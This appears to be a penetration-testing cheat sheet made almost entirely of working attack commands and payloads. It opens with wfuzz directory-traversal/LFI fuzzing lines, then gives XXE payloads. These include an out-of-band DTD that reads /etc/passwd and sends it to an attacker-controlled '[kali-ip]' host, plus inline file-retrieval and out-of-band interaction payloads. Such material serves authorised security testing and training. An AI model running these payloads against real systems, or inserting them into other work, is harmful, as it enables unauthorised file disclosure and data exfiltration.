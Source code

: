 ### Directory Traversal / LFI
```wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt http://site:80/index.php?path=../../../../../../../../../../FUZZ```

```wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hc 404 http://site:8080/test/../../../../../../../../../../../../FUZZ```

```wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hc 404 http://site:8080/test/FUZZ```

### XXE
If you see XML in ANY request, you should be testing for this

Wordlist to use in Burp Suite Intruder for fuzzing XXE: `/usr/share/seclists/Fuzzing/XXE-Fuzzing.txt`

<b> Out-of-Band Exploitation</b>
1. Create file named xxe.dtd with content:
```xml
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://[kali-ip]/out?%content;'>" >
```
2. Serve file with http 
3. Insert file in payload 
```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://your ip address/external.dtd"> 
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```
4. Check incoming requests 

Note that extracting file with multiple lines may not work due to encoding issues.

<b>Inline File Retrieval</b>
```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```

<b>Out of Band interaction (no file)</b>
```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "http://<our ip address>/somefile">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```
